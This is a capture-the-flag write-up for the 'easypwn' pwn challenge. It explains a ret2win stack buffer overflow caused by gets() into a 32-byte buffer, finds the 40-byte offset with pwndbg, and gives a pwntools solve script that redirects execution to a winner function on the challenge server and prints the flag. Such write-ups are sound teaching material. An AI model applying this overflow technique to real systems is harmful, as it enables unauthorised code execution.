

# EASYPWN

<p>
    
</p>

```console
loevland@hp-envy:~/ctf/ept/pwn/easypwn$ ./easypwn
Hello!
What's your name?
asd
Goodbye, asd!
```

Looking at the protections on the binary, we see that most of them are turned off
```console
loevland@hp-envy:~/ctf/ept/pwn/easypwn$ pwn checksec ./easypwn
[*] '/home/loevland/ctf/ept/pwn/easypwn/easypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


When reversing the binary in IDA we see that the `main` function calls the `hello` function, which asks for our name and prints it.
```c
int __fastcall main(int argc, const char **argv, const char **envp){
  ignore_me_init_buffering(argc, argv, envp);
  hello();
  return 0;
}
```

```c
int hello(){
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF
  puts("Hello!");
  puts("What's your name? ");
  gets(v1);
  return printf("Goodbye, %s!\n", v1);
}
```

There is also a function `winner` inside the binary, which is not called anywhere, but will print us the flag if called. A classic ret2win challenge.


We can see in the `hello` function that `gets(v1)` is called. `gets` is dangerous to use, because it reads in *everything* that is given as input, leading to buffer overflows being possible. Also, since we can see from running `checksec` that there is no stack canaries, nothing stops us from performing the buffer overflow.


Given that buffer `v1` is only 32 bytes in size, if we supply more than 32 bytes we will overflow and overwrite values on the stack. The return address is stored on the stack, so if we overflow it we can redirect the program execution to run the `winner` function, instead of returning back to `main`.


If we send a *cyclic* sequence as input, we can read the address where we crashed, which is `0x6161616161616166`. The `cyclic -l 0x6161616161616166` in pwndbg gives us the offset to this subsequence.
<p>
    
</p>

```console
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Knowing the offset we can construct a payload which overflows the `v1` buffer and parts of the stack (with non-important values) with 40 bytes, and then overwrites the return address located on the stack with the address of `winner`. When the `hello` function returns, the `winner` function should then be called instead, because of our overwrite.

The address of `winner` finds *pwntools* for us (but can also be found in many other ways, such as IDA, Objdump, and more).

```python
payload = b"A" * 40            # Padding to the return address on the stack
payload += p64(exe.sym.winner) # Convert the address we want to call into bytes
```

We can construct a solve script
```python
from pwn import *

exe = context.binary = ELF("./easypwn", checksec=False)
io = remote("io.ept.gg", 30004)
io.clean()                     # Skip the stuff printed in the terminal before our input

payload = b"A" * 40            # Padding to the return address on the stack
payload += p64(exe.sym.winner) # Convert the address we want to call into bytes

io.sendline(payload)
io.interactive()
```

Running the solve-script on the remote instance gives us the flag
```console
loevland@hp-envy:~/ctf/ept/pwn/easypwn$ python3 solve.py
[+] Opening connection to io.ept.gg on port 30004: Done
[*] Switching to interactive mode
Hello!
What's your name?
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@!
You are Winner! Flag:
EPT{S0meth1n6_2_ge7_u_5t4rt3d}
```